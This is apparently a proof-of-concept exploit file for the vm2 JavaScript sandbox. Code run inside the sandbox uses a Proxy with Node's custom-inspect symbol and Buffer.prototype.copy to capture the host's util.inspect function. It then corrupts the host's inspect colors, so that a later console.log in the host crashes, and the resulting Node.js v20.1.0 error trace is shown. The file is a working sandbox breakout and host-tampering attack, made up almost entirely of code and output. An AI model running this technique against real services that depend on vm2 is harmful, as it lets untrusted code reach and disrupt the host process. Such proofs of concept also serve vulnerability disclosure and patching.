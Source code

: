 //
//

const { VM } = require("vm2");
const vm = new VM();

const code = `
  let proxiedInspect;

  const source = new Proxy(() => {}, {
    get: function (target, prop, receiver) {
      if (prop === Symbol.for("nodejs.util.inspect.custom")) {
        // https://github.com/nodejs/node/blob/v20.1.0/lib/internal/util/inspect.js#L805-L811
        return function (depth, options, inspect) {
          proxiedInspect = inspect;
        };
      }
      return Reflect.get(...arguments);
    },
  });
  try {
    Buffer.prototype.copy.bind(source)({});
    // Here, util.inspect is called:
    // https://github.com/nodejs/node/blob/v20.1.0/lib/buffer.js#L209
    // https://github.com/nodejs/node/blob/v20.1.0/lib/internal/errors.js#L1277
    // https://github.com/nodejs/node/blob/v20.1.0/lib/internal/errors.js#L890-L891
  } catch {}

  // Break util.inspect.colors of the host context
  for (const key in proxiedInspect.colors) {
    proxiedInspect.colors[key] = [{ toString: 1 }];
  }
`;

vm.run(code);

console.log(1); // Cause an error!
/*
  node:internal/util/inspect:565
        return `\u001b[${color[0]}m${str}\u001b[${color[1]}m`;
                              ^

  TypeError: Cannot convert object to primitive value
      at stylizeWithColor (node:internal/util/inspect:565:29)
      at formatNumber (node:internal/util/inspect:1590:12)
      at formatPrimitive (node:internal/util/inspect:1645:12)
      at formatValue (node:internal/util/inspect:770:12)
      at inspect (node:internal/util/inspect:364:10)
      at formatWithOptionsInternal (node:internal/util/inspect:2298:40)
      at formatWithOptions (node:internal/util/inspect:2160:10)
      at console.value (node:internal/console/constructor:339:14)
      at console.log (node:internal/console/constructor:376:61)
      at Object.<anonymous> (... snip ...)

  Node.js v20.1.0
 */
